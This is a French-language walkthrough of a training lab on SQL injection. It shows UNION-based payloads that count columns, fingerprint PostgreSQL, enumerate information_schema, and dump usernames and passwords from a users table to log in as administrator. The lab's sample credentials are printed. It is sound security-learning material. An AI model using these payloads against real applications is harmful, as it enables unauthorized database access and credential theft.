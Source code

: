           DESCRIPTION
------------------------------------------------------------------------------------------------------

This lab contains an SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords.
You need to determine the name of this table and the columns it contains, then retrieve the contents of the
table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

------------------------------------------------------------------------------------------------------

On récupère le nombre de colonnes ajoutant à la fin de la requête :
```
'ORDER BY 1--
'ORDER BY 2--
'ORDER BY 3-- = internal server error
```
Nous avons donc 2 colonnes.

On vérifie la compatibilité des colonnes avec le format string :
```
'UNION SELECT 'a',NULL--
'UNION SELECT NULL,'a'--
```
Les 2 colonnes sont compatibles.

On cherche ensuite sous quel type et quelle version tourne la database :
```
'UNION SELECT NULL,@@version-- = internal server error
'UNION SELECT NULL,version()-- = OK
```
On apprend donc que la database visée est sous PostgreSQL 12.11 : 
`PostgreSQL 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit`

Avec ces informations, on peut ensuite chercher le nom des tables. La documentation de PostgreSQL fournit des noms de colonne
par défaut pour l'information schema : https://www.postgresql.org/docs/12/infoschema-columns.html
tentons d'utiliser **table_name** et **column_name** : 

```
'UNION SELECT table_name,NULL FROM information_schema.tables--
```
Quelques noms de tables interessants font surface :
- pg_user
- users_inhaeu
- pg_database
- user_mappings

On peut essayer de récupérer les colonnes de ces différentes tables :
'UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'pg_user'--

On y trouve d'autres colonnes que l'on pourrait tenter de récupérer :
- username
- passwd

```
'UNION SELECT passwd,NULL FROM pg_user--
```

On aperçoit un mot de passe, mais caché. surement un piège du lab pour indiquer subtilement qu'on est pas
sur la bonne piste. Après quelques tentatives infructueuses, je suis passé sur la seconde table :

'UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_inhaeu'--

Résultat concluant, on tombe sur deux colonnes :
- username_iqcpbt
- password_avjxlc

On tente de nouveau l'approche effectuée précédemment sur la table pg_user :
```
'UNION SELECT password_avjxlc,username_iqcpbt FROM users_inhaeu--
Il s'agit cette fois-ci des bonnes colonnes, la page affiche :
```

- 9drt170gxf4rfszt99yr
- wiener
- pwahxf3nu0ou3llzqz5w
- carlos
- ******************** (mot de passe)
- administrator

Une fois le mot de passe obtenu, il suffit de se log en administrateur afin de terminer le lab.